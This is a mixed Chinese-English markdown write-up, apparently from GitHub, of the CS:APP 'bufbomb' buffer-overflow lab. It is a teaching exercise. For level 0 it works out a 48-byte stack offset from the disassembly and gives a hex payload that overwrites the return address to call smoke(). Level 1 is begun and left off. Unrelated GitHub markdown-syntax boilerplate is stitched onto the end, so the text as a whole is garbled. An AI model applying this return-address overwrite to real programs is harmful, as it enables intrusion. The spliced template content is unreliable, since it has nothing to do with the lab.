 # Bufbomb

实验整体思路为，在给定的32位程序-bufbomb输入溢出内容，达到改变程序原有执行顺序。

网上也有相同内容，但反汇编结果不同。我们用bufbomb来做实验，bufbomb on the internet 可以用来做参考。

## level 0
首先通过 `objdump -d bufbomb > buf_asm` 导出bufbomb反汇编文件。

网络流传的一套反汇编结果
```
08048c04 <getbuf>:
 8048c04:	55                   	push   %ebp
 8048c05:	89 e5                	mov    %esp,%ebp
 8048c07:	83 ec 38             	sub    $0x38,%esp
 8048c0a:	8d 45 d8             	lea    -0x28(%ebp),%eax
 8048c0d:	89 04 24             	mov    %eax,(%esp)
```
**ebp** 压栈，**esp** 指向 **ebp**，**esp** 减 *0x38* 开出栈空间，**eax** 参数地址指向 **ebp** 加 *0x28*。    
所以整个输入栈为：

>40字节 + ebp + ret 地址 = 40 + 4 +4 = 48字节。


The disassembly result of our bufbomb.
```
08048ed2 <getbuf>:
 8048ed2:   83 ec 3c                sub    $0x3c,%esp
 8048ed5:   8d 44 24 10             lea    0x10(%esp),%eax
 8048ed9:   89 04 24                mov    %eax,(%esp)
```
There is no **ebp** register in this disassembly program，估计哪位改了改。    
Let's go! **esp** sub *0x3c*，**eax** point to **esp** plus *0x10* equal to *0x2c*，    
So the distance form **eax** to ret is：    

>44bytes + ret address = 44 + 4 = 48bytes

We get the same result 48.

Finally, according to your own situation，turn the adress to the address of _somke()_ function： `08048ccc <smoke>:`

```
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
00 00 00 00    
cc 8c 04 08
```

> Userid: hanggi    
 Cookie: 0x11c1be21    
 Type string:Smoke!: You called smoke()    
 VAILD    
> NICE JOB!


## level 1
在这个level，我们的任务是调用 *fizz()* 函数。但是fizz需要一个参数，当这个参数等于你的cookie时，才能通过升级。

Let's use the following command.
`$ ./makecookie hanggi`
I got the value of 0x11c1be21.


## title

*This text will be italic*
_This will also be italic_

**This text will be bold**
__This will also be bold__

_You **can** combine them_

* Item 1
* Item 2
  * Item 2a
  * Item 2b

1. Item 1
2. Item 2
3. Item 3
   * Item 3a
   * Item 3b

![GitHub Logo](/images/logo.png)
Format: ![Alt Text](url)

http://github.com - automatic!
[GitHub](http://github.com)

As Kanye West said:

> We're living the future so
> the present is our past.


I think you should use an
`<addr>` element here instead.


```javascript
function fancyAlert(arg) {
  if(arg) {
    $.facebox({div:'#foo'})
  }
}
```




- [x] @mentions, #refs, [links](), **formatting**, and <del>tags</del> supported
- [x] list syntax required (any unordered or ordered list supported)
- [x] this is a complete item
- [ ] this is an incomplete item



First Header | Second Header
------------ | -------------
Content from cell 1 | Content from cell 2
Content in the first column | Content in the second column
